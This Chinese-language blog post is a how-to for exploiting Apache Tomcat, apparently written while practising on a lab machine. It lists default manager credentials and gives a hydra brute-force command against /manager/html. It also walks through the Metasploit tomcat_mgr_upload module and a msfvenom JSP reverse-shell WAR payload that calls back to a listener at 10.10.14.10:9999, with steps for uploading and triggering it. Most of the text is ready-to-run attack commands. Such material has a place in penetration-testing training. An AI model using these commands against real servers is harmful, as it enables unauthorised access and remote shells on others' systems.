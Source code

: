 ```yaml
---
title: Apache Tomcat 漏洞利用
date: 2021/12/12
tags: [渗透测试,漏洞利用]
categories: 渗透测试
temp_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_16.jpg
banner_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_16.jpg
---
```




# Apache Tomcat 漏洞利用

---

[参考链接1](https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat)

[参考链接2](https://vk9-sec.com/apache-tomcat-manager-war-reverse-shell/)

**通过对apache tomcat的枚举和利用，我们可以从中找出漏洞，然后得到shell**

- 在这里列举出两种情况，第一种情况是哦我们能够访问到/manager目录，第二种情况是我们不能访问到该目录

## 枚举

- 在 Tomcat6 之前的某些版本中，我们可以使用msf枚举用户：

```
msf> use auxiliary/scanner/http/tomcat_enum
```

- 常见的得到的用户名与密码是：

    - admin:admin

    - tomcat:tomcat

    - admin:<NOTHING>

    - admin:s3cr3t

    - tomcat:s3cr3t

    - admin:tomcat

- 当然，我们也可以使用hydra进行暴力破解

```
hydra -L users.txt -P /usr/share/seclists/Passwords/darkweb2017-top1000.txt -f 10.10.10.64 http-get /manager/html
```

- 得到了用户名与密码后，我们就可以登录到 /manager/html下传输反向shell

## RCE

- 我们可以使用msf，当然有时候这个并不起效果

```
use exploit/multi/http/tomcat_mgr_upload
show options
set RHOSTS 
set RPORT 8080
set HttpPassword 
set HttpUsername 
set LHOST 
exploit
```

- 当我们使用msf没有用时，我们可以自己制造一个shell传输到网页上
- 创建一个msfvenom payload

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.10 LPORT=9999 -f war -o rshell.war
```

- 使用msf的监听模块进行监听（这有时候会收不到反弹回来的shell），或者使用nc监听端口

```
use exploit/multi/handler
show options
set payload java/jsp_shell_reverse_tcp
set LHOST 10.10.14.10
set LPORT 9999
exploit
```

- 完成这些后，我们将shell文件传输到web上，如果我们不能访问/manager/，那么就无法进行下一步
- 点击上传的文件在web中的地址，如果监听器没能收到shell，我们可以解压缩之前使用msfvenom创建的 .war 文件，将里面的  .jsp 文件上传，并且访问其网络链接

[点击该链接，说的很全面，但是要按情况选择](https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat)

